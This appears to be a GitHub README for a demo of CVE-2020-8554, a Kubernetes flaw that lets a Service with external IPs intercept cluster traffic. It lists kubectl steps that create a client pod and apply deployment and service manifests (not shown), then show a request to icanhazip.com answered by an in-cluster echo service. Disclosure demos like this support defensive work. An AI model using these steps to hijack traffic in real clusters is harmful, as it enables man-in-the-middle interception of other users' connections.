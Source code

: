 # CVE-2020-8554 demo

This is based on Etienne's [blog post](https://blog.champtar.fr/K8S_MITM_LoadBalancer_ExternalIPs/). this should work in any Kubernetes cluster that doesn't have specific admission controller policies designed to stop it, with the exception of clusters with a Cilium CNI and no Kube-proxy.

1. `kubectl create -f client-pod.yaml`
2. `kubectl -n dev exec client-pod -- curl -s http://icanhazip.com` - This should return your external IP address
3. `kubectl create -f deployment.yaml`
4. `kubectl create -f service.yaml`
5. `kubectl -n dev exec client-pod -- curl -s http://icanhazip.com` - This should give the echo response.